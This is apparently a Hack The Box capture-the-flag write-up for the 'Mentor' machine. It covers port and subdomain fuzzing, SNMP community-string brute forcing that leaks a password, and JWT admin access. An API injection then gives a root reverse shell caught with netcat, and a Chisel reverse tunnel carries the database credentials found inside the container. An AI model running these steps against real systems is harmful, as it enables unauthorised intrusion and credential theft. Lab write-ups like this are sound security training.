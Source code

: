 ## Scanning

We start with nmap port sca and givving as 2 open ports; 22 nd 80 and `udp` ports
```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sU --min-rate 10000 10.10.11.193 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-22 00:02 EST
Nmap scan report for mentorquotes.htb (10.10.11.193)
Host is up (0.086s latency).
Not shown: 993 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
161/udp   open   snmp
1214/udp  closed fasttrack
1993/udp  closed snmp-tcp-port
16862/udp closed unknown
20288/udp closed unknown
21948/udp closed unknown
49968/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
```
Changing the host nmae to `mentorquotes.htb`, giving as a webpage with some motivation quotes.
![](/Hack-The-Box/Precious/img/1.png

We used `feroxbuster` for hidden directory scan andgot nothing intresting, so we gone for sub-domain enumeration usung `wfuzz` and found a domain named `api`
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ wfuzz -u http://mentorquotes.htb/  -H "Host: FUZZ.mentorquotes.htb" -w /home/kali/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --hc 302
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://mentorquotes.htb/
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000000077:   404        0 L      2 W        22 Ch       "api"          
```
 the page shows nothing intresting 
 ![](/Hack-The-Box/Precious/img/2.png

so we did content discovery using `wfuzz` and found something intresting
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ wfuzz -u http://api.mentorquotes.htb/FUZZ  -w /home/kali/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --hc 404
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://api.mentorquotes.htb/FUZZ
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000000003:   307        0 L      0 W        0 Ch        "admin"                                                                                                                                           
000000076:   200        30 L     62 W       969 Ch      "docs"                                                                                                                                            
000000129:   307        0 L      0 W        0 Ch        "users"                                                                                                                                           
000001011:   307        0 L      0 W        0 Ch        "quotes"                                                                                                                                          
000003781:   403        9 L      28 W       285 Ch      "server-status"            
```

 ![](/Hack-The-Box/Precious/img/3.png

since `snmp`  port is open we are brute forcing community string using `nmap`
we found two stirings named `public and internal` so using `snmpwalk ` we do some basic enumerations and found a intresting password from `internal` 
` STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"`

Let’s try to sign up for a new account using the email address `james@mentorquotes.htb`

 ![](/Hack-The-Box/Precious/img/5.png

The sign-up process did not work using the email address that we found. Let’s try using a different email address instead.

![](/Hack-The-Box/Precious/img/6.png
 
Now that we have created a new account, let’s try using the login function to access it

![](/Hack-The-Box/Precious/img/7.png

Upon successful login, the login function provided us with a JWT (JSON Web Token), which we can use to authenticate future requests to the website.
We are using this JWT to access `GET /users` along with  `Authorization` header

![](/Hack-The-Box/Precious/img/8.png

We received a response stating that only an administrator can access this resource.So from `snmpwalk` we found a password using that password we tried to login and get a valid JWT.

![](/Hack-The-Box/Precious/img/9.png

let’s try the function using the new JWT to see if we have the necessary permissions.

![](/Hack-The-Box/Precious/img/10.png
we were able to successfully run the ‘get users’ function and retrieve the list of users.

let’s check the contents of the ‘admin’ directory.
![](/Hack-The-Box/Precious/img/11.png

`/check` was not implemented yet and changing the method of `/backup` gives a response
![](/Hack-The-Box/Precious/img/12.png

since api is more verbose we add some wrong parametrs to find the orginal response 

![](/Hack-The-Box/Precious/img/13.png

now we try to create our revershell payload.
![](/Hack-The-Box/Precious/img/14.png

we get shell as root 
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ nc -nvlp 7878                  
listening on [any] 7878 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.193] 45147
/bin/sh: can't access tty; job control turned off
/app # whoami
root
/app # 
```
now we realize that we are indside a docker container.
After reviewing the local files, we found a file called ‘db.py’ located in the ‘/app/app’ directory. This file contains information about the PostgreSQL database.

```python
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

# SQLAlchemy for quotes
engine = create_engine(DATABASE_URL)
metadata = MetaData()
quotes = Table(
    "quotes",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("title", String(50)),
    Column("description", String(50)),
    Column("created_date", DateTime, default=func.now(), nullable=False)
)

# SQLAlchemy for users
engine = create_engine(DATABASE_URL)
metadata = MetaData()
users = Table(
    "users",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("email", String(50)),
    Column("username", String(50)),
    Column("password", String(128) ,nullable=False)
)


# Databases query builder
database = Database(DATABASE_URL)

```
In order to access the database we need to tunnel to our machine and use the credentials.

## Tunneling

Use  Chisel to create a tunnel to our machine and use the credentials that we found in the ‘db.py’ file.

`our machine: ./chisel_1.7.7_linux_amd64  server --port 9595 --reverse`

`docker shell: ./chisel_1.7.7_linux_amd64 client -v 10.10.14.12:9595 R:5432:172.22.0.1:5432`

Now we are able to acesss the database
`psql -h 127.0.0.1 -p 5432 -d mentorquotes_db -U postgres`

![](/Hack-The-Box/Precious/img/15.png

we were able to carck service_acc hash password `123meunomeeivani`

while running `linepeas` we found `snmpd.conf` file.
![](/Hack-The-Box/Precious/img/16.png

there is our password
![](/Hack-The-Box/Precious/img/17.png



![](/Hack-The-Box/Precious/img/18.png



![](/Hack-The-Box/Precious/img/19.png
